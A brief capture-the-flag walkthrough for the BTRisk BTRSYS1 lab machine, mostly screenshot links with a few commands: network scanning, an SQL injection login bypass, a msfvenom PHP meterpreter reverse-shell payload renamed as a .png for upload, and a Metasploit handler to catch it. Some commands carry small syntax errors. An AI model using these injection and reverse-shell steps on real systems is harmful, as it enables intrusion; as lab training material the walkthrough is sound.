 # BTRisk BTRSYS1 Walkthrough


```
netdiscover -r 192.168.56.0\24
nmap -sV -O 192.168.56.103
```

![image](../images/post4/1.jpg)

![image](../images/post4/2.jpg)

![image](../images/post4/3.jpg)

![image](../images/post4/4.jpg)

> DENEME@btrisk.com:DENEME

![image](../images/post4/5.jpg)


> ‘ OR 1=1– @btrisk.com:DENEME


![image](../images/post4/6.jpg)


![image](../images/post4/7.jpg)


```
msfvenom -p php/meterpreter/reverse_tcp LHOST:192.168.56.102 LPORT:4545 -o shell.php.png
```


![image](../images/post4/8.jpg)

![image](../images/post4/9.jpg)




![image](../images/post4/10.jpg)
```
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set LHOST 192.168.56.102
setLPORT 4545
exploit
```

![image](../images/post4/11.jpg)

![image](../images/post4/12.jpg)

![image](../images/post4/13.jpg)

![image](../images/post4/14.jpg)
